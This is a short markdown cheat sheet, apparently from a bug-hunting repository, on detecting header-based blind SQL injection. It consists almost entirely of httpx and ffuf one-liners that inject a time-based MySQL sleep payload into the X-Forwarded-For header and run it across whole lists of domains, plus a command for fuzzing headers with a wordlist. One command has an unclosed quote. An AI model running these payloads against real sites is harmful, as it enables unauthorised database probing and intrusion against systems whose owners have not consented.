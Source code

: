 # SQL Injections

## Header-Based Blind SQL Injection
Find Header-Based Blind SQL injection

```bash
#htttpx
cat domain.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13'

#ffuf

ffuf -w domains.txt -u FUZZ -H "X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z

To avoid false positive, I use this command:

ffuf -w domains.txt -u FUZZ -H "X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z" -c 200 -o json --timeout 6

For wordlist and multiple Headers:

ffuf -w headers.txt -u <target> -H "User-Agent: FUZZ" -c 200 -o json
```
